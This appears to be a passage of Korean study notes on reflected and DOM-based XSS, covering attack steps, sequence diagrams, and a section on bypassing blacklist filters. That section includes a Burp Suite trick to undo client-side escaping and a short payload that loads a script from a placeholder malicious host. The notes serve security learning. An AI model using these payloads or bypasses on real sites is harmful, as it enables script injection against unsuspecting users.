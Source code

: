 #### 취약점 유형
- 사용자 입력을 그대로 페이지에 보여주는 사이트.
- 사용자 입력이 웹 페이지 코드에 그대로 들어가는 사이트.

#### 과정
1. 공격자가 Reflected XSS 취약점이 있는 페이지를 찾는다.
2. 공격자는 XSS 취약점 페이지의 URL의 파라미터에 악성 스크립트 코드를 사입하여 공격 URL을 만든다.
3. 공격자가 만든 URL을 사용자에게 건내주어 클릭하도록 유도한다.
4. 사용자가 링크를 클릭하여 페이지 들어 가면 사용자 브라우저에서 악성 스크립트가 실행된다.

<img class="mermaid" src="https://mermaid.ink/svg/eyJjb2RlIjoic2VxdWVuY2VEaWFncmFtXG7qs7XqsqnsnpAgLT4-IOqzteqyqeyekCA6IFJlZmxlY3RlZCBYU1Mg7Leo7JW97KCQIO2OmOydtOyngCDssL7quLBcbuqzteqyqeyekCAtPj4g6rO16rKp7J6QIDog7JWF7ISxIOyKpO2BrOumve2KuOulvCDri7TsnYAgVVJMIOunjOuTrFxu6rO16rKp7J6QIC0-PiDsgqzsmqnsnpAgOiBVUkwg66eB7YGs66W8IO2BtOumre2VmOuPhOuhnSDsnKDrj4RcbuyCrOyaqeyekCAtPj4g7IKs7Jqp7J6QIDogVVJMIO2BtOumrVxu7IKs7Jqp7J6QIC0-PiDsm7kg7ISc67KEIDog7Y6Y7J207KeAIOyalOyyrVxu7Ju5IOyEnOuyhCAtPj4g7IKs7Jqp7J6QIDog7JmE7ISx65CcIO2OmOydtOyngCDsnZHri7VcbuyCrOyaqeyekCAtPj4g7IKs7Jqp7J6QIDog7JWF7ISxIOyKpO2BrOumvSDsi6TtlolcbuyCrOyaqeyekCAtPj4g6rO16rKp7J6QIDog66-86rCQ7ZWcIOygleuztCDsoITri6wiLCJtZXJtYWlkIjpudWxsfQ">



### DOM Based XSS
- 서버 측에서 탐지하기가 어렵다.
- 최초에 HTML 문서를 서버로 부터 받으면, 그 이후에는 서버로 요청을 보내지 않고 악성스크립트를 심을 수 있다.
- 서버에 요청은 없지만,  URL 주소 해시에 심은 악성 스크립트가 실행된다.
- CSR(Client Side Rendering) 클라이언트 사이드에서 페이지를 그려준다. 즉 클라이언트 브라우저의 javascript 에서 get 요청 값을 가져와 페이지를 완성시킨다.

#### 취약점 유형
- 사용자 입력을 그대로 페이지에 보여주는 사이트.

#### 과정
1. 공격자는 DOM Based XSS 취약점이 있는 페이지를 찾는다.
2. 공격자는 XSS 취약점이 있는 페이지 URL의 파라미터에 악성 스크립트를 넣어준다.
3. 공격자는 완성한 URL을 사용자에게 보내어 클릭하도록 유도한다.
4. 사용자가 URL 링크를 클릭하여 페이지에 들어가면 사용자 브라우저에서 악성 스크립트가 동작한다.

<img class="mermaid" src="https://mermaid.ink/svg/eyJjb2RlIjoic2VxdWVuY2VEaWFncmFtXG7qs7XqsqnsnpAgLT4-IOqzteqyqeyekCA6IERPTSBCYXNlZCBYU1Mg7Leo7JW97KCQIO2OmOydtOyngCDssL7quLAuXG7qs7XqsqnsnpAgLT4-IOqzteqyqeyekCA6IOyVheyEsSDsiqTtgazrpr3tirjrpbwg64u07J2AIFVSTCDrp4zrk6wuXG7qs7XqsqnsnpAgLT4-IOyCrOyaqeyekCA6IFVSTOydhCDrs7TrgrTslrQg7YG066at7ZWY64-E66GdIOycoOuPhO2VnOuLpC5cbuyCrOyaqeyekCAtPj4g7IKs7Jqp7J6QIDogVVJMIO2BtOumrVxu7IKs7Jqp7J6QIC0-PiDsm7kg7ISc67KEIDog7Y6Y7J207KeAIOyalOyyrVxu7Ju5IOyEnOuyhCAtPj4g7IKs7Jqp7J6QIDog66-47JmE7ISxIO2OmOydtOyngCDsnZHri7VcbuyCrOyaqeyekCAtPj4g7IKs7Jqp7J6QIDog7Y6Y7J207KeAIOuPmeyggeycvOuhnCDsmYTshLFcbuyCrOyaqeyekCAtPj4g7IKs7Jqp7J6QIDog7JWF7ISxIOyKpO2BrOumve2KuCDsi6TtlolcbuyCrOyaqeyekCAtPj4g6rO16rKp7J6QIDog66-86rCQ7ZWcIOygleuztCDsoITri6wiLCJtZXJtYWlkIjpudWxsfQ">


## XSS Bypass ( 우회방법 )
- 서버에서 Black List 기반의 XSS 필터링을 적용 되었을 때의 우회방법이다.

### Client Side 검증 우회
- Burp Suite (프록시 툴)을 이용하여 다시 원래대로 만들어 준다.

```
client side에서 치환된다.
<script> => &lt;script&gt;

프록시 툴로 다시 원래대로 만든다.
&lt;script&gt; => <script>
```

### Script Load
- XSS 공격할 때 글자 수가 제한되어 있다면 유용하다.

```
<script src="http://악성스크립트"></script>
```
